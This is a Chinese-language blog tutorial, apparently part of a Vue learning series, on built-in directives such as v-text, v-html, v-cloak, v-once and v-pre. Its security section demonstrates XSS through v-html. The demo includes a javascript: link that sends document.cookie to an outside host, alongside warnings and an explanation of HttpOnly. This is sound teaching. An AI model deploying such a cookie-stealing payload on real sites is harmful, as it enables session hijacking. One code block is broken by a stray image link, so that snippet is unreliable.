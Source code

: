 ```yaml
---
author: "li_mingxie"
title: "【Vue笔记】Vue入门简介_内置指令(14)"
date: 2022-06-12T23:55:49+08:00
tags: [
    "vue",
]
categories: [
    "vue",
]
---
```


这一篇整理了内置指令相关的内容。  <!--more-->

#### 内置指令

​​**v-bind**​​​：单向绑定解析表达式，可简写为 ​​:xxx​​​​  
**v-model**​​：双向数据绑定  
​​**v-for​​**：遍历数组/对象/字符串  
​​**v-on​​**：绑定事件监听,可简写为​​@​​​​  
**v-if**​​：条件渲染（动态控制节点是否存在)  
​​**v-else​​**：条件渲染（动态控制节点是否存在)  
​​**v-show​​**：条件渲染(动态控制节点是否展示)  

#### v-text

1. 作用：向其所在的节点中渲染文本内容
2. 与插值语法的区别:​​​v-text​​​会替换掉节点中的内容，​​{{xx}}​​则不会

```html
<div id="app">
    <h2>{{msg}}</h2>
    <h2 v-text="msg"></h2>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"Hello world"
        }
    })
</script>
```

#### v-html

1. 作用：向指定节点中渲染包含html结构的内容  
2. 与插值语法的区别：  
    (1).v-html 会替换掉节点中所有的内容，{{xx}}则不会  
    (2).v-html 可以识别 html 结构  
3. 严重注意：v-html 有安全性问题!!!  
    (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击  
    (2).一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上!  

```html
<div id="app">
    <div>{{msg}}</div>
    <div v-text="msg"></div>
    <div v-html="msg"></div>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"<h3>Hello world</h3>"
        }
    })
</script>
```

#### 安全性问题

```html
<div id="app">
    <div>{{msg}}</div>
    <div v-text="msg"></div>
    <div v-html="msg"></div>
    <div v-html="msg2"></div>
    <div v-html="msg3"></div>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"<h3>Hello world</h3>",
            msg2:"<a href=javascript:alert(1)>资源，速来</a>",
            msg3:'<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>资源，速来</a>'
        }
    })
</script>
```

HttpOnly 是包含在 http 返回头Set-Cookie 里面的一个附加的 flag，  
所以它是后端服务器对 cookie设置的一个附加的属性，在生成 cookie 时使用 HttpOnly 标志有助于减轻客户端脚本访问受保护 cookie 的风险

#### v-cloak

1. 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 ​​​v-cloak​​​属性
2. 使用 css 配合 ​​​v-cloak​​​ 可以解决网速慢时页面展示出​​{{xxx}}​​的问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title></title>
    <style>
        /*选中标签中包含 v-cloak*/
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>
<div id="app">
    <div v-cloak>{{msg}}</div>
    <!--如果引入了外部js，而且返回时间长，那么页面会闪现-->
    <script type="text/javascript" src="../js/vue.js"></script>
</div>
<!--这里标签内容只有在上边js加载完后才执行-->
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"Hello world"
        }
    })
</script>
</body>
</html>
```

#### v-once

1. ​​​v-once​​​所在节点在初次动态渲染后，就视为静态内容了
2. 以后数据的改变不会引起​​​v-once​​所在结构的更新，可以用于优化性能

```html
<div id="app">
    <h2 v-once>n的初始值：{{n}}</h2>
    <h2>n的当前值：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            n:1![在这里插入图片描述](https://img-blog.csdnimg.cn/8b0057d61e9b43848788b3c01f712058.gif#pic_center)

        }
    })
</script>
```

#### v-pre

1. 跳过其所在节点的编译过程
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

```html
<div id="app">
    <h2 v-pre>Vue其实很简单</h2>
    <h2 v-pre>n的当前值：{{n}}</h2>
    <h2>n的当前值：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            n:1
        }
    })
</script>
```

----------------------------------------------
欢迎大家的意见和交流

`email: li_mingxie@163.com`
